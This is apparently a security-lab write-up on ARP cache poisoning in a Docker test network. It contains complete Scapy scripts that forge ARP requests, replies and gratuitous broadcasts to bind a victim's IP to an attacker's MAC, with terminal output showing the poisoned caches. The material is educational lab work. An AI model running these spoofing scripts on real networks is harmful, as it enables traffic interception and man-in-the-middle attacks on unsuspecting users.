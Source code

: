 ### Docker Configuration
```shell
seed@VM:~$ dockps
e09f8cbbb9d3  M-10.9.0.105
b744fccdd43d  A-10.9.0.5
642ee46d1bf4  B-10.9.0.6
```

### Network Configuration
```shell
M - 10.9.0.105 - 02:42:0a:09:00:69
A - 10.9.0.5   - 02:42:0a:09:00:05
B - 10.9.0.6   - 02:42:0a:09:00:06
```

### Script to populate correct ARP tables:
```python3
#!/usr/bin/env python3
from scapy.all import *

M_mac, M_ip = ("02:42:0a:09:00:69", "10.9.0.105")
A_mac, A_ip = ("02:42:0a:09:00:05", "10.9.0.5")
B_mac, B_ip = ("02:42:0a:09:00:06", "10.9.0.6")

def parse(content):
    if content.lower() == "a":
        return A_mac, A_ip
    elif content.lower() == "b":
        return B_mac, B_ip
    else:
        return M_mac, M_ip

dst = "A"
src = "B"

dst_mac, dst_ip = parse(dst)
src_mac, src_ip = parse(src)

E = Ether(dst=dst_mac, src=src_mac)

A = ARP()
A.op = 1 #1 for ARP request; 2 for ARP reply
A.hwsrc = src_mac
A.psrc = src_ip
A.hwdst = dst_mac
A.pdst = dst_ip

arp_req = E/A
print(f"sending {src_ip}|{src_mac} to {dst_ip}|{dst_mac}")
sendp(arp_req)
```

## Task 1: ARP Cache Poisoning
### 1.A using ARP request
On the attack host (M), we need to construct an ARP request packet to map host B's IP address to M's MAC address. We then need to send that packet to host A. 

Now let's create our python scapy script:
```python3
#!/usr/bin/env python3
from scapy.all import *

M_mac, M_ip = ("02:42:0a:09:00:69", "10.9.0.105")
A_mac, A_ip = ("02:42:0a:09:00:05", "10.9.0.5")
B_mac, B_ip = ("02:42:0a:09:00:06", "10.9.0.6")

#sending ethernet packet from host M to host A
E = Ether(dst=A_mac, src=M_mac)

A = ARP()
A.op = 1 #1 for ARP request; 2 for ARP reply
#we want host A to associate host B's IP address with host M's MAC address
#so we need to send an ARP binding like (M_mac, B_ip)
A.hwsrc = M_mac
A.psrc = B_ip
#we're sending this ARP request to host A
A.hwdst = A_mac
A.pdst = A_ip

arp_req = E/A
sendp(arp_req)
```

```shell
root@e09f8cbbb9d3:/volumes# python3 1a.py 
.
Sent 1 packets.
```

Now let's hop over to host A and see if it worked:
```shell
root@b744fccdd43d:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.6                 ether   02:42:0a:09:00:69   C                     eth0
```
Beautiful! Host A now cached that the IP address ```10.9.0.6``` (host B) is now bound to the MAC address ```02:42:0a:09:00:69``` (host M)

### 1.B using ARP reply
On host M, we need to construct an ARP reply packet to map host B's IP address to host M's MAC address. We then need to send this packet to host A.
#### Scenario 1: B's IP is already in A's cache
First we need to make sure host A's ARP table has the correct mapping for host B. We can do so by altering our previous script to send genuine source and destination IP and MAC addresses from host B to host A. The script I used to do that is linked at the top of the writeup. Let's check to see if host A has the correct mapping:

```shell
root@b744fccdd43d:/# arp -n    
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.1                 ether   02:42:41:69:9e:70   C                     eth0
10.9.0.6                 ether   02:42:0a:09:00:06   C                     eth0
```
Looks good to me!

The scapy script to send an ARP reply is much the same as the previous task except we change the ARP().op from 1 to 2, indicating an ARP reply. We execute the scapy script on Host M and jump to host A to see the results.
```shell
root@b744fccdd43d:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.1                 ether   02:42:41:69:9e:70   C                     eth0
10.9.0.6                 ether   02:42:0a:09:00:69   C                     eth0
```
Looks like the ARP reply has overwritten the entry for host B's MAC address!

#### Scenario 2: B's IP is not in A's cache
Let's flush host A's arp cache:
```shell
root@b744fccdd43d:/# arp -d 10.9.0.6
```

Now that the cache is empty, let's run our script again from the attack host and check host A's cache again:
```shell
root@e09f8cbbb9d3:/volumes# python3 1b.py 
.
Sent 1 packets.
```
```shell
root@b744fccdd43d:/# arp -n
root@b744fccdd43d:/# 
```
We've got nothing. Looks like the attack wasn't successful.

### 1.C using ARP gratuitous message
On host M, construct an ARP gratuitous packet and use it to map B's IP address to M's MAC address and launch the attack under the same two scenarios as task 1.B. 

An ARP gratuitous packet is an ARP reply broadcast. The script is as follows:
```python3
#!/usr/bin/env python3
 from scapy.all import *
 
 M_mac, M_ip = ("02:42:0a:09:00:69", "10.9.0.105")
 A_mac, A_ip = ("02:42:0a:09:00:05", "10.9.0.5")
 B_mac, B_ip = ("02:42:0a:09:00:06", "10.9.0.6")
 broadcast_mac = "ff:ff:ff:ff:ff:ff"
 
 #sending ethernet packet from host M to all hosts on the subnet
 E = Ether(dst=broadcast_mac, src=M_mac)
 
 A = ARP()
 A.op = 2 #1 for ARP request; 2 for ARP reply
 #we want host A to associate host B's IP address with host M's MAC address, so we need to send an ARP binding like (M_mac, B_ip)
 A.hwsrc = M_mac
 A.psrc = B_ip
 #we're sending this ARP request to all hosts on the subnet
 A.hwdst = broadcast_mac
 A.pdst = A_ip
 
 arp_req = E/A
 sendp(arp_req)
```

#### Scenario 1: B's IP is already in A's cache
```shell
root@b744fccdd43d:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.1                 ether   02:42:41:69:9e:70   C                     eth0
10.9.0.6                 ether   02:42:0a:09:00:06   C                     eth0

root@e09f8cbbb9d3:/volumes# python3 1c.py 
.
Sent 1 packets.

root@b744fccdd43d:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.1                 ether   02:42:41:69:9e:70   C                     eth0
10.9.0.6                 ether   02:42:0a:09:00:69   C                     eth0
```
The results look very similar to the previous section, host B's MAC address was overwritten to be host M's.

#### Scenario 2: B's IP is not in A's cache
```shell
root@b744fccdd43d:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.1                 ether   02:42:41:69:9e:70   C                     eth0

root@e09f8cbbb9d3:/volumes# python3 1c.py 
.
Sent 1 packets.

root@b744fccdd43d:/# arp -n 
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.1                 ether   02:42:41:69:9e:70   C                     eth0
```
No cigar, looks like if B's IP address isn't already in the cache, an ARP reply, regardless of broadcast or unicast, won't populate the cache.

